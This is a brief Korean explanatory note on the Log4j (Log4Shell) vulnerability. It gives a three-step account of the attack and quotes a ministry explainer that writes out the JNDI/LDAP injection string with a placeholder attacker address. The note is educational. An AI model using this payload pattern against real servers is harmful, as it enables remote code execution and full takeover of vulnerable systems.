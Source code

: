 Log4j
---

issue: 최근에 보안상 문제로 이슈가 되었다.

오픈소스 JAVA 로깅 프레임워크

- JAVA를 위한 로그 프로그램
- 기업 홈페이지등 인터넷 서비스 운영 관리 목적으로 기록을 남기기 위한 프로그램

해킹과정

1. 해커가 서버에 공격문구가 포함된 요청을 보냄

2. Log4j는 해커가 보낸 요청을 서버내에서 실행함

3. 해킹이 시작됨


---
관련 문서 

log4j의 기반 언어인 java 언어에는 코드를 트리거하는 기능이 포함되어 있습니다. 

그렇기에 ${jndi:ldap://공격자의 주소}라는 문자열이 포함된 메시지로 공격자가 원하는 형태로 기록이 되면 java는 원격 서버에서 참조된 개체를 가져와 코드를 실행하게 됩니다. 

이때 사용하는 문자열 메시지를 어떻게 변형하느냐에 따라서 URL 내용, 로그인 이름, 데이터 조각 등을 기록할 수 있어서 컴퓨터의 모든 권한을 취득할 수 있다는 위험성이 존재합니다.

이번 취약점과 관련하여 많은 소프트웨어와 플랫폼에서 사용되는 프로그램이기에 취약성 약용을 많은 경로로 할 수 있어 상당히 위험한 취약점으로 평가

[출처] 컴퓨터 최악의 취약점, log4j 무엇일까?|작성자 과학기술정보통신부

-----
